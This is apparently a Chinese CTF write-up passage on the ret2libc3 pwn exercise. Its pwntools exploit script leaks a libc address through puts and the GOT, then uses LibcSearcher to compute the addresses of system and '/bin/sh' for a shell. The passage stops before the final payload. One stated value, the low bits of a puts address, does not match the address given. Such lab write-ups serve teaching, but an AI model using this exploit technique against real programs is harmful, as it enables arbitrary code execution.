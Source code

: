 然后，我们需要获取libc的版本才能得到libc基地址。如何能够用一个函数真实地址得到版本或者基地址呢？

aslr技术，是地址随机化，虽然是地址随机化，但低十二位是不变的，因为需要内存页对齐，puts函数的真实地址0xf7d54360的低十二位是150

可以根据后十二位查到这个函数所在的libc的版本：[libc\_search](https://libc.blukat.me/)

找到了很多各版本！那就只能多试一下！或者将上面的程序重新运行一下，找\_\_libc\_start\_main的真实地址

```plain
puts_got_addr = e.got['puts']
#改成
puts_got_addr = e.got['__libc_start_main']
#其他的不需要动，当然可以更改变量名称
```

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc3.py 
[+] Starting local process './ret2libc3': pid 76030
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xf7dc3550
[*] Stopped process './ret2libc3' (pid 76030)
```

这个网站再查询一下，变成2条结果了，不过这两条结果的偏移量是一样了(不贴图了)

接下来根据公式得到了system函数的偏移量和/bin/sh的偏移量(即str\_bin\_sh)，构造payload，拿到shell

手工太麻烦了，我们使用工具：[LibcSearcher](https://github.com/lieanu/LibcSearcher)

安装：

```plain
git clone https://github.com/lieanu/LibcSearcher.git
cd LibcSearcher
python setup.py develop
```

使用查看readme

构造最终exp（这里选择了找\_\_libc\_start\_main真实地址）

```plain
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *

p = process('./ret2libc3')
e = ELF('./ret2libc3')
context.log_level = 'debug'

main_got_addr = e.got['__libc_start_main']   
puts_plt_addr = e.plt['puts']  
main = e.symbols['main']        

payload = flat(['A' * 112, puts_plt_addr, main, main_got_addr])

p.sendlineafter('Can you find it !?', payload)  

main_rel_addr = u32(p.recv()[0:4])  
print hex(main_rel_addr)

libc = LibcSearcher('__libc_start_main', main_rel_addr)
libcbase = main_rel_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')
print hex(binsh_addr)
```